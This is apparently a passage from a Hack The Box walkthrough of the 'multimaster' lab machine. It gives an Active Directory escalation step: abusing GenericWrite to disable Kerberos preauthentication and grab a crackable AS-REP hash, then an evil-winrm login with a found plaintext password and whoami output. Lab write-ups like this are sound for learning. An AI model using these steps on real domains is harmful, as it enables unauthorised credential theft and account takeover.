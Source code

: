 I found a password for yet again another user: this time `sbauer`. Accordeing to my searches with Bloodhoud earlier, `jorden` should be next, then `Administrator`. we will see if my projected path from this user was correct.

> GenericWrite Generic Write access grants you the ability to **write to any non-protected attribute on the target object**, including “members” for a group, and “**serviceprincipalnames**” for a user Abuse Info Users With GenericWrite over a user, **perform a targeted kerberoasting attack**. See the abuse section under the GenericAll edge for more information

The following video explains how to exploit this: [https://www.youtube.com/watch?v=z8thoG7gPd0](https://www.youtube.com/watch?v=z8thoG7gPd0)

[http://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/](http://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/)

> we can change a victim’s userAccountControl to not require Kerberos preauthentication, grab the user’s crackable AS-REP, and then change the setting back:

[https://docs.microsoft.com/en-us/powershell/module/addsadministration/set-adaccountcontrol?view=win10-ps](https://docs.microsoft.com/en-us/powershell/module/addsadministration/set-adaccountcontrol?view=win10-ps)

Set-ADAccountControl -DoesNotRequirePreAuth 

> -DoesNotRequirePreAuth Indicates whether Kerberos pre-authentication is required to logon using the user or computer account. This parameter sets the ADS\_UF\_DONT\_REQUIRE\_PREAUTH flag of the Active Directory UAC attribute. The acceptable values for this parameter are:
>
> * $False or 0
> * $True or 1

Then we can use Impacket's GETSPNUSers.py

```text
zweilos@kalimaa:~/htb/multimaster$ evil-winrm -u sbauer -i 10.10.10.179 -p D3veL0pM3nT!

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sbauer\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
megacorp\sbauer S-1-5-21-3167813660-1240564177-918740779-3102


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ==================================================
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
```
